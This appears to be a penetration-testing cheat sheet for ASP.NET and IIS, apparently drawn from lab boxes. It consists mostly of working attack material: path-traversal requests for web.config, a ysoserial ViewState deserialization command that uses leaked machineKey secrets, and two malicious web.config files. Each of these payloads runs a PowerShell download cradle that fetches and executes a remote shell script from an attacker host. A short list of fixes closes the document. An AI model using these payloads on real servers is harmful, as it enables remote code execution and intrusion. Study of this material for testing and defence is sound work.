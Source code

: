 **Exploring Binary Files with path traversal **

```sh
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
Host: example-mvc-application.minded
```

`Don't forget to try multiple path traversal like ..../ or \..\`

- Interesting file : 
  Web.config
  
- Interesting extension : 
  asp
  aspx
  config
  php

**Microsoft IIS tilde character “~” Vulnerability/Feature – Short File/Folder Name Disclosure**

- Download the tool:
```sh
wget https://github.com/irsdl/IIS-ShortName-Scanner
```
- Exploit :
```sh
java -jar iis_shortname_scanner.jar 2 20 http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/
```

**ViewState exploitation knowing secrets **

- Resources : 
https://blog.liquidsec.net/2021/06/01/asp-net-cryptography-for-pentesters/
https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

- Need to read the web.config file:
```sh
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

- Download YsoSerial : 
```sh
https://github.com/pwntester/ysoserial.net/releases/tag/v1.36
```

- Generate the payload : 
```sh
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.18:8080/shell.ps1') "  --decryptionalg="AES"  --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx"
```

**Not knowing Viewstate secrets **

- Resources :
  https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter

### Web config file upload : 

```sh
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')")
%>
```


```sh
<?xml version="1.0" encoding="utf-8"?> 
<configuration>  
    <location path="." inheritInChildApplications="false">  
        <system.webServer>  
            <handlers>  
                <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />  
            </handlers>  
            <aspNetCore processPath="cmd.exe" 
                        arguments="/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')" 
                        stdoutLogEnabled="false" 
                        stdoutLogFile=".\logs\stdout" 
                        hostingModel="OutOfProcess" />  
        </system.webServer>  
    </location>  
</configuration>  
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

- Ressources : https://medium.com/@jeroenverhaeghe/rce-from-web-config-461a5eab8ce9
## Fixes

- Set **allowSubDirConfig** = false in  
    `C:\Windows\System32\inetsrv\Config\applicationHost.config`. This prevents web.config files from being read in subdirectories
- Remove write permission on the `web.config` file.
- Lock sections in the web config